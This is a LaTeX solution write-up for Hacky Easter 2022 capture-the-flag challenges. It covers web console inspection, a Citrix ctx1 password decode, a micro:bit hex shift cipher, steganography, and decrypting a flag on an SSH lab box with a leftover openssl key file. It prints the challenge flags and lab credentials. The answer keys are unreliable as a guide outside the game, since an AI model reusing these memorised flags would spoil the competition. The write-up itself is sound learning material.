	
\includegraphics[width=49mm]{level4/bucketbg.jpg}
\end{marginfigure}




% !TeX root = ../solution.tex

\hypertarget{he22.11}{%
\chapter{[HE22.11] Fire Alert}\label{he22.11}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level4/challenge11.jpg}
\end{marginfigure}
\subsection{Intro}
In case of fire, break the glass and press the button.

\url{http://46.101.107.117:2204}

Note: The service is restarted every hour at x:00.

\section{Solution}\label{hv22.11solution}

The link takes us to a simple website.  Inspecting the source code leads to a script \verb+script.js+
defining a function \verb+firealert()'+ that writes to the console when the button is pressed.  Look at the console in developer mode and see what is happening:


\includegraphics[width=100mm]{level4/solution11.png}

The flag \verb+he2022{th1s_fl4g_1s_bl4ck_n0t}+.





% !TeX root = ../solution.tex

\hypertarget{he22.12}{%
\chapter{[HE22.12] Copy Protection Pioneers}\label{he22.12}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level4/challenge12.jpg}
\end{marginfigure}
\subsection{Intro}
IThe copy protection pioneers were really creative and lived the jet set life.

\url{http://46.101.107.117:2209}

Note: The service is restarted every hour at x:00.


\section{Solution}\label{hv22.12solution}

The web site is asking for the copy protection code of the old ``Jet Set
Willy'' game.  A search leads to the 
\url{https://github.com/aycock/jsw/blob/master/jswdecode.py} that prints the
codes for the grid location and gives us the flag.


\includegraphics[width=100mm]{level4/solution12.png}

The flag \verb+he2022{J3t-53t-W1llY-f0r3v3R}+.





% !TeX root = ../solution.tex

\hypertarget{he22.13}{%
\chapter{[HE22.13] Statues}\label{he22.13}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level4/challenge13.jpg}
\end{marginfigure}
\section{Intro}
Hope you like statues as much as I do!

I created a little tour in my favourite city for you:

\begin{enumerate}
\item    Richard I
\item     Peter Pan
\item     Albert
\item     James Cook
\end{enumerate}

I will not reveal my favourite statue, though. Find it yourself!

\subsection{{\NotoEmoji 🚩} Flag}

\begin{itemize}
	\item    it's not the one on the challenge image (Joan of Arc)!
	\item    name of the person represented by the statue
	\item    all lowercase, no spaces, no special chars
	\item    e.g. he2022{johnny} 
\end{itemize}

\section{Solution}\label{hv22.13solution}

The statues listed are all found in London, UK.  In Google Earth they are named
\begin{enumerate}
\item    Statue of Richard I of England
\item     Peter Pan Sculpture (by George Frampton)
\item     The Albert Memorial
\item     Captain James Cook Statue
\end{enumerate}

When the locations are plotted on a map, the lines from Richard I to Peter Pan
and from Albert to James Cook cross near the statue for the Duke of Wellington.
The statue depicts Achilles, so the flab becomes 
\verb+he2022{achilles}+.





% !TeX root = ../solution.tex

\hypertarget{he22.14}{%
\chapter{[HE22.14] Snoopy}\label{he22.14}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level4/challenge14.jpg}
\end{marginfigure}
\subsection{Intro}
Snoopy dog found something interesting.

\noindent
Can you get something interesting out of the 256 bytes he found?

\noindent\begin{verbatim}
IKIANJKDPKKAPJIDNKKAPNBHELCBHMGGDLOBLIPCKNAHFOEEBNFHALLB
OMPGKJADFKDAGMNGIIGCDPEFBINCIPNFIMKGPPLFOMLGOKFAAIECBPJF
M</Password><Domain type="NT">CORP</Domain></Credentials><ClientName>
THUMPERSDESK7</ClientName><ClientType>ica30</ClientType><ClientAddress>
10.1  
\end{verbatim}

\section{Solution}\label{hv22.14solution}
Googling for the keys in the file (<DOMAIN> etc) points us towards Citrix 
configuration files.  So the hash for the password is probably Citrix ctx1 
encoded.  \href{https://cyberchef.org/}{CyberChef} has a recipe to decode 
the password, but complains about the wrong length.  Going the other way, 
starting with a password "he2022", shows a encoded password that starts 
with "MNGIKI...", so just add "MNG" to the front of the intercepted hash to 
get
\verb+he2022{ctx1_41nt_3nKryp710n!}+.





% !TeX root = ../solution.tex

\hypertarget{he22.15}{%
\chapter{[HE22.15] LEDs}\label{he22.15}}

\begin{marginfigure}
	
\includegraphics[width=50mm]{level4/challenge15.jpg}
\end{marginfigure}
\subsection{Intro}
I got this hex dump, but I don't know what it is.

\noindent Any idea?

\noindent File: \verb+leds.hex+

\section{Solution}\label{hv22.15solution}
The file is a variant of the Intel hex file format (see \url{https://en.wikipedia.org/wiki/Intel_HEX}.  On the second line a record type is given as 0x0A, which seems to be used in the BBCMicro:bit computer.  At \url{https://makecode.microbit.org/#editor} we can find an emulator that can show the code as JavaScript code

\begin{minted}{javascript}
input.onButtonPressed(Button.A, function () {
    j += 0 - 1
})
input.onButtonPressed(Button.AB, function () {
    basic.showString("" + (scribble(c)))
})
input.onButtonPressed(Button.B, function () {
    j += 5
})
function scribble (s: string) {
    for (let i = 0; i <= s.length - 1; i++) {
        r = "" + r + String.fromCharCode(s.charCodeAt(i) + j)
    }
    return r
}
let r = ""
let j = 0
let c = ""
c = "ZW$\"$$m`%&fQ^#ff^%QV%h#U%o"
\end{minted}

So the characters in string c are shifted by an amount to print the flag.  Looking at c, we can make an educated guess that ``\$''\$\$´´ will be turned into ``2022´´ and thus a small python script prints the flag \verb+he2022{n34t_l1ttl3_d3v1c3}+.
\begin{minted}{python}
s = ord('2') - ord('$')
flag = ''
for c in 'ZW$"$$m`%&fQ^#ff^%QV%h#U%o':
     flag += chr(ord(c)+s)

flag
\end{minted}







% !TeX root = ../solution.tex

\hypertarget{he22.16}{%
\chapter{[HE22.16] Rabbits With Hats}\label{he22.16}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge16.jpg}
\end{marginfigure}
\section{Intro}
I'm looking for a friend of mine who had to flee from his evil owner.

He must have found a shelter for wildlife, but didn't tell me where it is. He
just said he would go join rabbits with hats. What the heck do these three
words mean??

\noindent{\NotoEmoji 🚩} Flag
\begin{itemize}
\item \verb+he2022{nameoftheplace}+
\item \textbf{all lowercase, no spaces}
\item first letter is j, last one is y
\item e.g. \verb+he2022{junglezooaviary}+
\end{itemize}

\subsection{Hint}
\begin{itemize}
\item the number of words is important
\item search the nearby area
\end{itemize}    

\section{Solution}\label{hv22.16solution}
Do a goole search for \verb+three words rabbits with hats+ and it points you
to a map location and if you zoom out, there is the ``Jackrabbit Flat Wildlife
Sanctuary'' nearby.  So the flag is
\verb+he2022{he2022{jackrabbitflatwildlifesanctuary}+:


	










% !TeX root = ../solution.tex

\hypertarget{he22.17}{%
\chapter{[HE22.17] Crypto Bunny}\label{he22.17}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge17.jpg}
\end{marginfigure}
\section{Intro}
View my verified achievement from (HOP)².

File: \verb+crypto_bunny.png+
\begin{marginfigure}
	
\includegraphics[width=50mm]{level5/crypto_bunny.png}
\end{marginfigure}
\section{Solution}\label{hv22.17solution}
Looking at the text in the file, it points towards badger.org and provides some information about the narrative:
going to \url{https://eu.badgr.com/public/badges/LaGEPKu1R2W5mg221vdV4g} gives us the hint that we have to solve the criteria.  

Rabbit ciper points towadrs \url{https://en.wikipedia.org/wiki/Rabbit_(cipher)}, an on-line solver at \url{https://www.browserling.com/tools/rabbit-decrypt} can be used to decode the ``narrative'' with the password \verb+carrot+, given as the tag.  The decoded message is \verb+Congrats, here's the flag: he2022{b4dg3_4w4rd3d}+

	










% !TeX root = ../solution.tex

\hypertarget{he22.18}{%
\chapter{[HE22.18] Jupiter One}\label{he22.18}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge18.jpg}
\end{marginfigure}
\section{Intro}
Jupiter is hiding something.

Can you find it?

File: \verb+jupiter-one.png+

\subsection{Hint}
LSB
\begin{marginfigure}
	
\includegraphics[width=50mm]{level5/jupiter-one.png}
\end{marginfigure}
\section{Solution}\label{hv22.18solution}
The hint points towards something hidden in the LSB of the picture.  Use Stegsolve to investigate and use these settings to get the flag \verb+he2022{jim_jupiter_the_healthiest_man_in_chicago!!}+:

	
\includegraphics[width=100mm]{level5/solution18.png}
	










% !TeX root = ../solution.tex

\hypertarget{he22.19}{%
\chapter{[HE22.19] Ghost in a Shell 3}\label{he22.19}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge19.jpg}
\end{marginfigure}
\subsection{Intro}
\begin{fullwidth}
	{\tiny
\begin{verbatim}
  _, _,_  _,  _, ___   _ _, _    _,    _, _,_ __, _,  _,    ,  ,  ,  
 / _ |_| / \ (_   |    | |\ |   /_\   (_  |_| |_  |   |     |  |  |  
 \ / | | \ / , )  |    | | \|   | |   , ) | | |   | , | ,   |  |  |  
  ~  ~ ~  ~   ~   ~    ~ ~  ~   ~ ~    ~  ~ ~ ~~~ ~~~ ~~~   ~  ~  ~  
______________________________________________________________________  
 ,--.     ,--.     ,--.  
| oo |   | oo |   | oo |   
| ~~ |   | ~~ |   | ~~ |   o  o  o  o  o  o  o  o  o  o  o  o  o  o  o  
|/\/\|   |/\/\|   |/\/\|     
______________________________________________________________________  
  
\end{verbatim}
}
\end{fullwidth}

\noindent Connect to the server, snoop around, and find the flag!
\begin{itemize}
\item \verb+ssh 46.101.107.117 -p 2203 -l pinky+
\item password is: \verb+!speedy!+
\end{itemize}

Note: The service is restarted every hour at x:00.

\section{Solution}\label{hv22.19solution}
In the home directory are two files:

\begin{fullwidth}
	{\tiny
\begin{verbatim}
b6c464bd8644:~$ ls -l
total 8
-rw-r--r--    1 root     root            64 May 21 10:24 flag.enc
-r--------    1 root     root            32 Mar 13 18:22 flag.txt
b6c464bd8644:~$ 
\end{verbatim}
}
\end{fullwidth}

Some snooping around finds a file \verb+/opt/bannerkoder/cipher.sh+ with these contents:

\begin{fullwidth}
	{\tiny
\begin{verbatim}
#!/bin/bash
date +%s | md5sum | base64 | head -c 32 > /tmp/7367111C2875730D00686C13B98E7F36
openssl enc -aes-256-cbc -e -in /home/pinky/flag.txt -out /home/pinky/flag.enc -kfile /tmp/7367111C2875730D00686C13B98E7F36
\end{verbatim}
}
\end{fullwidth}

So we can decode the file with the command
\begin{fullwidth}
	{\tiny
\begin{verbatim}
openssl enc -aes-256-cbc -d -in  /home/pinky/flag.enc -kfile /tmp/7367111C2875730D00686C13B98E7F36
